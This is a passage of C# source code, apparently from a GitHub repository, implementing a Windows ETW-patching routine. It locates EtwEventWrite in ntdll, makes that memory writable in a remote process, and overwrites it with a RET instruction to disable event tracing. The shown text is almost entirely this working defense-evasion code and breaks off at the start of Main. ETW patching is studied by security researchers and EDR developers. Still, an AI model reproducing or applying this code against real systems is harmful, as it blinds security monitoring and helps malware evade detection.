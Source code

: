 ```
            var localNtdllBaseAddress = GetRemoteNtdllBaseAddress(Process.GetCurrentProcess());
            var offset = (long)localNtdllAddress - (long)localNtdllBaseAddress;

            Console.WriteLine("ETW Event Write offset: 0x{0}", offset.ToString("X"));
            return (IntPtr)offset;
        }

        private static void ModifyRemoteMemory(IntPtr processHandle, IntPtr address, byte newValue)
        {
            Console.WriteLine("Modifying remote memory...");
            const int PAGE_EXECUTE_READWRITE = 0x40;

            if (!VirtualProtectEx(processHandle, address, (UIntPtr)1, PAGE_EXECUTE_READWRITE, out var oldProtect))
            {
                throw new InvalidOperationException("Failed to change memory protection.");
            }

            if (!WriteProcessMemory(processHandle, address, new[] { newValue }, 1, out _))
            {
                throw new InvalidOperationException("Failed to write to the memory.");
            }

            if (!VirtualProtectEx(processHandle, address, (UIntPtr)1, oldProtect, out _))
            {
                throw new InvalidOperationException("Failed to restore memory protection.");
            }
            Console.WriteLine("Remote memory modified.");
        }

        private static void PatchEtw(IntPtr processHandle, IntPtr remoteNtdllBaseAddress)
        {
            Console.WriteLine("Patching ETW...");
            IntPtr etwEventWriteOffset = GetEtwEventWriteOffset();
            IntPtr remoteEtwEventWriteAddress = (IntPtr)((long)remoteNtdllBaseAddress + (long)etwEventWriteOffset);

            byte newValue = 0xC3; // RET
            ModifyRemoteMemory(processHandle, remoteEtwEventWriteAddress, newValue);
            Console.WriteLine("ETW patched.");
        }

        public static IntPtr GetLibraryAddress(string dllName, string functionName)
        {
            Console.WriteLine("Getting address of {0} from {1}...", functionName, dllName);
            IntPtr hModule = LoadLibrary(dllName);
            if (hModule == IntPtr.Zero)
            {
                throw new DllNotFoundException($"Unable to load library: {dllName}");
            }
            IntPtr functionAddress = GetProcAddress(hModule, functionName);
            if (functionAddress == IntPtr.Zero)
            {
                throw new EntryPointNotFoundException($"Unable to find function: {functionName}");
            }
            Console.WriteLine("Address of {0} from {1} obtained: 0x{2}", functionName, dllName, functionAddress.ToString("X"));
            return functionAddress;
        }

        public static void Main(string[] args)
        {
            // Begin ETW patching process
```